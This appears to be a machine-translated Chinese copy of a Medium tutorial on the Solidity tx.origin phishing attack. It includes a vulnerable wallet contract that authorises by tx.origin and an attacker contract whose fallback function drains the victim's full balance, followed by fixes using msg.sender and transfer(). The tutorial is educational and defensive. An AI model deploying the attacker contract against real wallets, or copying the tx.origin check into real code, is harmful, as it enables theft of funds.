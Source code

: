 # 坚固性:Tx 起源攻击

> 原文：<https://medium.com/coinmonks/solidity-tx-origin-attacks-58211ad95514?source=collection_archive---------0----------------------->

![](img/2484ceba11442ee9fe4676deac8085ff.png)

交易源攻击是一种网络钓鱼攻击，可以耗尽合同中的所有资金。

## 故障点

*   使用***address . call . value(amount)(****来转移以太*
*   *使用 ***tx.origin*** 检查合同所有者的身份*

*![](img/f288713f25c2f1e7f01f3e3825898731.png)*

## *契约*

*TxOriginVictim 是一个智能合约，是一个钱包类型的合约。*

```
*pragma solidity ^0.4.18; contract TxOriginVictim {address owner; function TxOriginVictim() { owner = msg.sender;}function transferTo(address to, uint amount) public { require(tx.origin == owner); to.call.value(amount)();}function() payable public {}*
```

*TxOriginAttack 是一个将被攻击者使用的契约。*

```
*pragma solidity ^0.4.18; interface TxOriginVictim { function transferTo(address to, uint amount);}contract TxOriginAttacker {address owner; function TxOriginAttacker() public { owner = msg.sender;}function getOwner() public returns (address) { return owner;}function() payable public { TxOriginVictim(msg.sender).transferTo(owner, msg.sender.balance);}}*
```

1.  *用户将以太网从其智能合约钱包转移到 TxOriginAttacker 的地址*
2.  *Ether 命中 TxOriginAttacker 契约，调用 fallback 函数，触发:`TxOriginVictim(msg.sender).transferTo(owner, msg.sender.balance)`*

*3.回退函数中的命令将" ***pose*** "作为 TxOriginVictim 使用它的地址， ***msg.sender*** 将所有资金(***msg . sender . balance****)*转移到 TxOriginAttacker 合同的 ***所有者****

*4.这是因为在 TxOriginVictim 契约中，我们检查的是***tx . origin*****而不是*****msg . sender****

*5. **tx.origin** 是交易的原始发送方， **msg.sender** 是即时发送方*

*6.由于攻击者已经使用 TxOriginVictim 的地址中继了交易，所以他们可以调用 ***transferTo()*** 函数" ***冒充*** "作为 TxOriginVictim 契约，并传递 **msg.sender.balance** (发送者的全部余额)作为金额参数*

*7.钱包(TxOriginVictim)检查交易的来源，而不是直接发送者，现在 TxOriginVictim 将转移其合同中的所有资金*

## *解决方法*

*   *切勿使用 **tx.origin** 检查所有权授权，而应使用 **msg.sender***
*   *不要用**address . call . value(amount)()**；而是使用 **address.transfer()***
*   *address.transfer() 将有 2300 的气体津贴——这意味着可能的攻击契约将没有足够的气体用于除了发射事件之外的进一步计算*
*   ***address.transfer()** 同样抛出失败*

> *[在您的收件箱中直接获得最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)*

*[![](img/7c0b3dfdcbfea594cc0ae7d4f9bf6fcb.png)](https://coincodecap.com/?utm_source=coinmonks)**![](img/9665cc840d4eed9e4a69caeccdfe4c29.png)*

# *❤️喜欢，分享，留下你的评论*

*如果你喜欢这篇文章，不要忘记喜欢，与你的朋友和同事分享，并在下面留下你对这篇文章的评论。跟我来……*